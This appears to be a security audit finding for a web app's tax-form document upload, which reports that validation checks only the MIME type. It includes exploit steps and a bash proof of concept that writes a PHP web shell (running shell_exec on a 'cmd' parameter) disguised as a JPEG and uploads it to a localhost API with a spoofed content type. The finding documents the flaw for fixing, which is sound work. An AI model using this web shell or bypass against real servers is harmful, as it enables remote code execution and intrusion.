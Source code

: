 
## 🟠 High Finding #4: File Upload Bypass

### Description
File upload validation only checks MIME type, not actual file content.

### Location
`server/fileUpload.ts:52-58`

### Exploit Steps
1. **Create Malicious File**: PHP shell with image extension
2. **Bypass MIME Check**: Set Content-Type to image/jpeg
3. **Upload Shell**: Upload disguised executable
4. **Execute**: Access uploaded file for code execution

### PoC Script
```bash
#!/bin/bash
# File Upload Bypass PoC

echo "=== File Upload Vulnerability Demonstration ==="

# Step 1: Create malicious file disguised as image
echo "1. Creating malicious PHP file disguised as image..."
cat > malicious.jpg << 'EOF'
<?php
// Malicious PHP code disguised as JPEG
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
EOF

# Step 2: Get authentication token
echo "2. Getting authentication token..."
TOKEN=$(curl -s -X POST http://localhost:5000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"user@example.com","password":"password123"}' \
  | jq -r '.accessToken')

# Step 3: Upload malicious file with image MIME type
echo "3. Uploading malicious file with image MIME type..."
curl -X POST http://localhost:5000/api/tax-forms/test123/documents \
  -H "Authorization: Bearer $TOKEN" \
  -F "file=@malicious.jpg;type=image/jpeg" \
  -F "documentType=Profile Image"

echo "4. File uploaded successfully, bypassing MIME type validation"
echo "   In a real scenario, this could lead to RCE if the file is accessible"

# Cleanup
rm malicious.jpg
```

---